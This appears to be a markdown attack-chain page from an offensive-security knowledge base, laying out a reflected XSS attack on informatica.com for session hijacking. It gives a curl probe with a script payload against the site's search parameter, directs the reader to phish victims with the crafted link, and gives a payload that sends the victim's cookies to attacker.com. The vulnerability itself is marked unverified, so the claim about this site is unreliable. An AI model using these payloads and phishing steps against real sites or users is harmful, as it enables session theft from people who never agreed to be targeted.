

# Reflected XSS on Informatica.com for Session Hijacking

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Basic |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or proxy like Burp Suite for payload testing

### Target Environment

- Web application on informatica.com
- Vulnerable reflected input field (e.g., search parameter)
- No specific ports required beyond standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- Public access to the website
- Ability to craft and send malicious links
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Deliver and Execute XSS Payload
procedure: [[procedures/Exploiting-Reflected-XSS-on-Web-Application]]

**Objective**: Inject a malicious script via a reflected input on informatica.com to execute JavaScript in the victim's browser, stealing session data.

**Instructions**: Identify a reflected input parameter (e.g., a search query). Craft a payload like `<script>alert('XSS')</script>` and append it to the URL. Use [[commands/curl-test-xss]] to test reflection:

```bash
curl "https://www.informatica.com/search?q=<script>alert('XSS')</script>" -v
```

Deliver the link to the victim via email or phishing. Upon clicking, the script executes, allowing cookie theft with a payload like `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`.

**Expected Output**: The payload reflects in the response without sanitization, and in a browser, it triggers the alert or exfiltration.

**Success Indicators**:
- Payload appears unsanitized in server response
- JavaScript executes in victim's browser (e.g., alert pops or data sent to attacker server)

## Attack Chain Summary

### Key Achievements

1. Successful injection of reflected XSS payload on informatica.com
2. Execution of arbitrary JavaScript leading to potential session hijacking
3. Data theft capability, such as stealing cookies or session tokens

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
